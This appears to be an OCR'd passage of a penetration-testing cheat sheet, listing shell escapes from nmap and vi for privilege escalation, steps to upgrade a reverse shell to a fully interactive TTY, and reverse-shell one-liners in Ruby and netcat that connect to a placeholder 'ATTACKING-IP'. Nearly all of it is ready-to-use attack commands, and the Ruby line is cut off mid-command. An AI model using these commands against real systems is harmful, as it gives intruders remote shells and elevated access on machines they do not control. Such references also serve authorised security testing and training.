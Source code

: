 - LUA

```bash
!sh
```

- Privilege Escalation via nmap

```bash
:!bash
```

- Privilege escalation via vi

Fully Interactive TTY
------------------------------------------------------------

```
                                In reverse shell 
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
                                In Attacker console
stty -a
stty raw -echo
fg
                                In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

Spawn Ruby Shell
------------------------------------------------------------

```bash
exec "/bin/sh"
```

```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d
```

Netcat
------------------------------------------------------------

```bash
nc -e /bin/sh ATTACKING-IP 80
```

```bash
/bin/sh | nc ATTACKING-IP 80
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

Telnet Reverse Shell
------------------------------------------------------------
